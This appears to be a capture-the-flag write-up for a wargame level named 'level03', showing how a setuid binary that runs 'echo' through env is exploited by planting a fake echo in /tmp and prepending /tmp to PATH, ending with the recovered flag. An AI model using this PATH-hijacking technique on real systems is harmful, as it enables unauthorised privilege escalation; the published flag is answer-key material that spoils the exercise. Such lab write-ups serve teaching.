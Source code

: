 # level03 solve

Firstly, at all, when we get logged and trying to see if we got the file we can see we have one file ` level03 `

```
$ ls
> level03
```

It looks like a binary file so we decide to run it.

```
$ ./level03
> Exploit me
```

After some tries with gdb we decide to see inside the file.

```
$ cat ./level03
```

And we see some multiple line interesting. But the most curious line was ` /usr/bin/env echo Exploit me `

```
▒[▒/usr/bin/env echo Exploit me0p▒▒▒L▒▒▒▒p▒▒▒▒▒▒▒▒▒▒▒▒▒▒zR|
```

After some reflexion, we decide to try to see if the tmp folder got all right.
And it is the case, so we decide to redirect echo on getflag, because we suppose that the executable use ` execve ` for printing the message with the bin ` echo ` .

```
$ echo /bin/getflag > /tmp/echo
$ chmod 777 /tmp/echo
$ export PATH=/tmp
```

On line :

```
echo /bin/getflag > /tmp/echo ; chmod 777 /tmp/echo ; export PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Remember to get back the old path if you remove it.

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Trying again and...

```
$ ./level03
> qi0maab88jeaj46qoumi7maus
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level02">previous level</a> - <a href="../../level04">next level</a>
